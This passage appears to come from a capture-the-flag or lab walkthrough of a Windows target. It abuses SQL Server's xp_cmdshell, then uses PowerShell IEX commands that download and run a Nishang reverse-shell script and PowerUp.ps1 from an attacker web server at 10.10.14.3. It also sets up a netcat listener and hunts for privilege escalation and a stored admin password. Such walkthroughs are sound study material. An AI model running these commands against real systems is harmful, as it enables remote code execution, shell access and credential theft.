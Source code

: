 reconfigure

#Then we can execute commands from within the SQL server.

xp_cmdshell "whoami"
xp_cmdshell "ipconfig"

#we are going to invoke a tcp reverse shell with powershell. For that we will use Nishang's invoke-powershelltcp.ps1 from the repo.

https://github.com/samratashok/nishang/tree/master/Shells

# we donwload the script and add a line at the end of the script (which is part of the examples inside the script). That line will tell the machine to run a reverse shell to our machine. So we set a NC client wtih rlwrap to use ctrl+L and other advanced features,set a python webserver and send the command inside the machine to download our script and interpret it.

sudo rlwrap nc -nlvp 443

sudo python -m http.server 80

xp_cmdshell "powershell IEX(New-Object Net.WebClient).downloadString(\"http://10.10.14.3/ps.ps1\")"

# If we press ctlr+c the shell would die, we could use the conPtYshell script from github to avoid that. Not a necessary step.

https://github.com/antonioCoco/ConPtyShell

#We should get the interactive console, move to the folder to get the first flag or do a recursive search to find it.

cmd /c dir /r /s user.txt

#we check the access we have. We will see SeImpersonatePrivilege that is a potential way to scalate.

whoami /priv

#we are going to use the powerup script. Modify the script at the end to invoke all checks. This will check with all functions in the script to see more potential ways to scalate.

https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

# again we set up the webserver and ask to donwload/interpret it.

sudo python -m http.server 80

IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3/content/PowerUp.ps1')

#The script finds a password for the admin user that it was in a location, the script automatically decrypted the password.  If we read the location of the file we will se the hash string (in cpassword field).
